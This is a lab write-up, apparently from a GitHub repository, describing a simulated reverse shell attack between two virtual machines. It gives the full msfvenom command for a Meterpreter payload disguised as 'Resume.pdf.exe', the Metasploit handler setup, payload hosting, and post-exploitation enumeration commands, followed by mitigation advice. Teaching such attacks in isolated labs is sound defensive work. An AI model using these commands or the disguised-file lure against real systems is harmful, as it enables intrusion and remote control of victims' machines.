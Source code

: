 # Reverse Shell Simulation Lab

## **Project Report**
Ethical Hacking and Reverse Shell Analysis


---

### **Project Title**:  
Setting Up and Analyzing a Reverse Shell in a Simulated Internal Network

---

### **Introduction**

This project explores the setup and execution of a reverse shell attack in a controlled environment. By simulating such a scenario, cybersecurity professionals can better understand how attackers exploit vulnerabilities to gain unauthorized access to systems. The insights gained from this exercise will help strengthen defensive strategies and promote awareness of potential risks. All activities were conducted ethically within an isolated environment.

---

### **Objectives**

1. Simulate an internal network using virtual machines.
2. Perform reconnaissance on a target system to identify potential vulnerabilities.
3. Create and execute a reverse shell payload.
4. Analyze post-exploitation activities using Meterpreter.
5. Identify mitigation strategies to protect against reverse shell attacks.

---

### **Environment Setup**

1. **Virtual Machines Configuration**:
   - **Windows VM**: IP address `192.168.10.20`![Screenshot 2024-12-26 232122](https://github.com/user-attachments/assets/78ef26d2-4190-4236-9596-cc5534ec111a)


   - **Kali Linux VM**: IP address `192.168.10.21`![Screenshot 2024-12-26 232716](https://github.com/user-attachments/assets/9f6df1d7-40c6-4a64-bcf7-e3ad8d90904f)


2. **Network Validation**:
   - Ensure both VMs are connected to the same network by performing ping tests:
![Screenshot 2024-12-26 232951](https://github.com/user-attachments/assets/32d472f5-5abc-476e-bc42-d8fd9a61c892)



### **Steps and Execution**

#### **Step 1: Reconnaissance**

- Use `nmap` to scan the Windows VM for open ports and services:
  ```bash
  nmap -A 192.168.10.20 -Pn

![Screenshot 2024-12-27 000525](https://github.com/user-attachments/assets/1f87202b-8081-45e1-9072-7b69632842d5)


#### **Step 2: Payload Creation**

A reverse shell payload is a malicious program that initiates a connection back to the attacker’s machine, allowing remote command execution. It bypasses traditional security measures like firewalls by establishing the connection from inside the target network.
![Screenshot 2024-12-27 000844](https://github.com/user-attachments/assets/a21e935b-f80d-4a86-bb59-260c334e6198)
![Screenshot 2024-12-27 001050](https://github.com/user-attachments/assets/831c540f-106a-4a06-85b9-ebe0370c6ea3)


- Generate the payload using `msfvenom`:

  ```bash
  msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.10.21 lport=4444 -f exe -o Resume.pdf.exe
  ```


- Verify the file type:
  ```bash
  file Resume.pdf.exe
  ```
    ![Screenshot 2024-12-27 001727](https://github.com/user-attachments/assets/f9be2c00-db9c-4919-8cc2-62d961b97792)

#### **Step 3: Listener Setup**

- Launch the Metasploit Framework:
  ```bash
  msfconsole
  ```
  ![Screenshot 2024-12-27 001947](https://github.com/user-attachments/assets/976c3bb5-4851-4450-8849-c953736761e0)

- Configure the handler to listen for incoming connections:
  ```bash
  use exploit/multi/handler
  set payload windows/x64/meterpreter/reverse_tcp
  set lhost 192.168.10.21
  set lport 4444
  exploit
  ```
![Screenshot 2024-12-27 002111](https://github.com/user-attachments/assets/01966d26-76d7-440f-876d-211c7d0d2e4f)
![Screenshot 2024-12-27 002553](https://github.com/user-attachments/assets/28d19ec4-c3dd-41ad-bf84-191e38848d45)
![Screenshot 2024-12-27 002610](https://github.com/user-attachments/assets/9a6210f1-20ca-49f6-8bfa-69468b50deac)
![Screenshot 2024-12-27 003330](https://github.com/user-attachments/assets/62709ad6-d480-4a10-a459-4ae6c8e7fae4)
![Screenshot 2024-12-27 003359](https://github.com/user-attachments/assets/276af1ed-0c7c-4a1a-a91a-b5a26e52f5fc)

#### **Step 4: Hosting the File**

- Serve the malicious file using Python’s HTTP server:
  ```bash
  python -m http.server 9999
  ```
![Screenshot 2024-12-27 003528](https://github.com/user-attachments/assets/452b6929-cbf7-46a1-ba8a-3aac55b54c62)

#### **Step 5: Execution on Windows VM**

- Open a web browser in the Windows VM and navigate to:
  ```
  http://192.168.10.21:9999
  ```
  ![Screenshot 2024-12-27 003815](https://github.com/user-attachments/assets/ddf9eb80-e797-4b89-b0ef-65906fddfd0b)

- Download and execute `Resume.pdf.exe` to trigger the reverse shell.
![Screenshot 2024-12-27 003901](https://github.com/user-attachments/assets/8cae4eef-71d2-4304-9226-816e33d8b1ea)
![Screenshot 2024-12-27 003938](https://github.com/user-attachments/assets/b7683fe6-a727-469d-9ccf-46e2571c5c45)
![Screenshot 2024-12-27 004149](https://github.com/user-attachments/assets/7ac7e707-4d75-4abf-9f72-489e0edcf0b2)

#### **Step 6: Post-Exploitation**

- Access the Meterpreter session and execute commands to gather information:
  ```bash
  shell
  net user
  net localgroup
  whoami
  ipconfig
  ```
![Screenshot 2024-12-27 005345](https://github.com/user-attachments/assets/a876fd00-fefd-42a2-bde9-bd6a8400e270)
![Screenshot 2024-12-27 005438](https://github.com/user-attachments/assets/6b1a8f18-e674-4f46-a73c-4f92e4167dec)

#### **Step 7: Monitoring**

- Use `netstat` on the Windows VM to inspect network connections and processes:
  ```bash
  netstat -annob
  ```
![Screenshot 2024-12-27 005006](https://github.com/user-attachments/assets/3fa54750-1737-4190-9516-b9f4ec8ef234)
![Screenshot 2024-12-27 005045](https://github.com/user-attachments/assets/1dd6acd4-c065-407c-a9db-930245d0bff5)

---

### **Observations**

- The payload successfully established a reverse shell connection, illustrating how attackers can remotely control compromised systems.
- Commands executed on the target provided detailed information about system users, administrative groups, and network configurations.
- The `whoami` command confirmed the attacker's access level, indicating potential permissions for further exploitation.
- Active connections and processes observed using `netstat` highlighted channels that could be monitored to detect malicious activity.
- The payload’s performance varied depending on network stability, emphasizing the importance of robust and consistent network configurations during testing.

---

### **Ethical Considerations**

- This exercise was conducted in a secure and controlled environment to ensure no harm was caused to production systems.
- The primary goal is to understand attack methods and use this knowledge to strengthen system defenses.

---
### Skills Learned

- **Network Scanning and Reconnaissance**  
  - Understanding how to identify open ports and vulnerabilities using tools like `nmap`.

- **Payload Development**  
  - Creating and customizing reverse shell payloads with `msfvenom`.

- **Post-Exploitation Techniques**  
  - Executing commands on compromised systems to extract valuable information.

- **Network Monitoring**  
  - Using tools like `netstat` to observe and analyze active connections.

- **Ethical Hacking Practices**  
  - Conducting penetration testing responsibly in a controlled environment.



---
### **Mitigation Strategies**

1. **Network Segmentation**:

   - Isolate critical systems from less secure areas of the network.

2. **Regular Software Updates**:

   - Apply security patches promptly to close known vulnerabilities.

3. **Endpoint Protection**:

   - Use advanced antivirus and endpoint detection solutions to monitor for suspicious activity.

4. **User Training**:

   - Educate users about the risks of phishing and downloading suspicious files.

5. **Firewall and IDS Rules**:

   - Configure firewalls and intrusion detection systems to block unauthorized outgoing traffic.

---

### **Conclusion**

This project highlights the critical need for proactive measures to protect systems against reverse shell attacks. By understanding the techniques used by attackers, cybersecurity professionals can better safeguard networks and educate stakeholders on mitigating risk

